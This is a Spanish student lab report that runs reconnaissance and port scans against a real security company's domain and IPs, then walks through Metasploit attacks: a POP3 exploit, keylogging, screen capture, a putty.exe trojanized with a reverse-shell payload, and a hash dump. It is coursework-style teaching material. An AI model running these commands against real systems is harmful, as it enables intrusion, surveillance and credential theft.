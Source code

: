 # Practica N°2, Diego Assia - Juan Carmona

## Información de la empresa
### Intezer
> Es una empresa dedicada al análisis genético de malware que revoluciona la detección y respuesta de amenazas cibernéticas, esto lo logra a través de revelar el código de software. Intezer también equipa empresas para que se protejan de ataques cibernéticos.

## Preguntas a responder 
### ¿Cuál (es) dominios tiene la empresa? 
- Intezer.com 
### ¿Se puede concluir algo acerca de la postura de seguridad de cada empresa a partir de la información encontrada?
De manera superficial la seguridad de la empresa es bastante buena y se esperaba que fuera así debido a que es una empresa de seguridad informática, es difícil conseguir información tales como los correos de los empleados con la información que tienen en internet puesto que no lo suelen exponer, por otro lado, en LinkedIn, son pocos los usuarios observables de la empresa si no estas unido a su red.
La ubicación de la empresa se encontró de manera rebuscada, a través de Bing ya que en Google maps no nos entregó ningún lugar. Sin embargo, por medio de la ejecución de ciertos comandos es posible obtener información que resulta difícil hallar a simple vista.

### Fierce 
Comando ejecutado: 
``` 
fierce -dns intezer.com -file responseFierce -threads 10
```
Respuesta comando: 
https://github.com/DaaGeney/RepoCiber/blob/master/Practica%202/Archivos/responseFierce%20-%20copia.txt 

Hallazgos: 
Al ejecutar el comando anterior encontramos informacion más detallada de la empresa, tal como otros dominios, direcciones Ip y subredes asociadas al DNS. 
**Debido a la falta de direcciones arrojadas por el comando anterior se creó un ambiente virtual y se obtuvieron las siguientes direcciones:**
https://github.com/DaaGeney/RepoCiber/blob/master/Practica%202/Archivos/fiercepy.txt 

### Shodan.io 
Links de las direcciones ip consultadas: 
https://github.com/DaaGeney/RepoCiber/blob/master/Practica%202/Archivos/Shodan.io%2052.166.34.156.pdf 
https://github.com/DaaGeney/RepoCiber/blob/master/Practica%202/Archivos/Shodan.io%2088.218.118.30.pdf 

Hallazgos: 
Al realizar la busqueda de las ip encontradas por el comando inicial de Fierce, obtenemos que sólo una de estas posee información al alcance pero es debido a que está en un servidor comercial (AWS), es decir, no se ofrece información a fondo de la empresa. 

### The harvester
```
theHarvester -d intezer.com -b baidu,bing,certspotter,crtsh,dnsdumpster,dogpile,duckduckgo,google,intelx,linkedin,linkedin_links,netcraft,otx,securityTrails,threatcrowd,trello,twitter,vhost,virustotal,yahoo -f responseHavester
```
Al ejecutar el comando anterior se presentaon un sin número de errores que nos obligaron a realizar modificaciones a este; aún así, el comando anterior no nos dió resultado satisfactorio. 
#### Imagenes de evidencia: 

![Chale, no cargó la imagen.](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/FailedKali.png)

# Escaneo de redes. 
## TCP: Full 
Las ip's seleccionadas fueron:

88.218.118.10
![Chale, no cargó la imagen.](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Full_88.218.118.10.png)

88.218.118.100 
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Full_88.218.118.100.png)

88.218.118.101
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Full_88.218.118.101.png)

#### Ejecucion comandos en Kali 

![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Full.png)

## TCP: Half 
Las ip's seleccionadas fueron:

88.218.118.10
![Chale, no cargó la imagen.](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Half_88.218.118.10.png)

88.218.118.100 
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Half_88.218.118.100.png)

88.218.118.101
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Half_88.218.118.101.png)

#### Ejecucion comandos en Kali 

![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Half.png)

## TCP:Ack prove
Las ip's seleccionadas fueron:

88.218.118.10
![Chale, no cargó la imagen.](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Ack-prov_88.218.118.10.png)

88.218.118.100 
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Ack-prov_88.218.118.100.png)

88.218.118.101
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Ack-prov_88.218.118.101.png)

#### Ejecucion comandos en Kali 

![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Ack-prov.png)

## TCP:Inverse
Las ip's seleccionadas fueron:

88.218.118.10
![Chale, no cargó la imagen.](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Inverse_88.218.118.10.png)

88.218.118.100 
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Inverse_88.218.118.100.png)

88.218.118.101
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Inverse_88.218.118.101.png)

#### Ejecucion comandos en Kali 

![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Inverse.png)

## Banner grabbing
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Banner%20ip_windows.png)
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Banner%20ip_windows1.png)
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Escaneo%20de%20redes%20-%20copia/Banner%20ip_windows2.png)

# Realizando Ataques. 
## Ataques sin involucrar al usuario. 
```
netstat -oan | find "110"
```
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/evidenciaSmMailPort/Anotaci%C3%B3n%202020-02-28%20072319.png)

```
msf > use exploit/windows/pop3/seattlelab_pass
msf exploit(seattlelab_pass) > set rhost <IP_SW_Roja>
rhost => <IP_SW_Roja>
msf exploit(seattlelab_pass) > exploit
```
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Ataque/ataque%20sin%20involucrar%20al%20usuario/1.png) 
```
meterpreter > keyscan_start
meterpreter > keyscan_dump 
``` 
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Ataque/ataque%20sin%20involucrar%20al%20usuario/2%20(keyscan).png)
```
Captura de pantalla: 
meterpreter > load espia
Loading extension espia...success.
meterpreter > screengrab 
Screenshot saved to: /root/atdwEeHm.jpeg
meterpreter > Interrupt: use the 'exit' command to quit
meterpreter >
```
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Ataque/ataque%20sin%20involucrar%20al%20usuario/3%20(screengrab).png)
Captura tomada: 

![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/kBbabPhW.jpeg)

## Ataque involucrando al usuario.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4443 -x /home/Assiacarmona/Downloads/putty.exe  -k -e x86/shikata_ga_nai -i 15 -f exe > /home/Assiacarmona/deskpot/putty_e.exe
```
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Ataque/Ataque%20involucrando%20al%20usuario/1%20(putty).png)
```
#msfconsole
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp    //salida del comando anterior, no se digita
msf exploit(handler) > set LHOST <ip_kali>
LHOST => <ip_kali>
msf exploit(handler) > set LPORT 4443
LPORT => 4443
msf exploit(handler) > exploit
```
```
meterpreter > use priv
meterpreter > hasdump
```
![Error al cargar](https://raw.githubusercontent.com/DaaGeney/RepoCiber/master/Practica%202/Archivos/Ataque/Ataque%20involucrando%20al%20usuario/2%20(getting%20passwords'%20encripted).png)





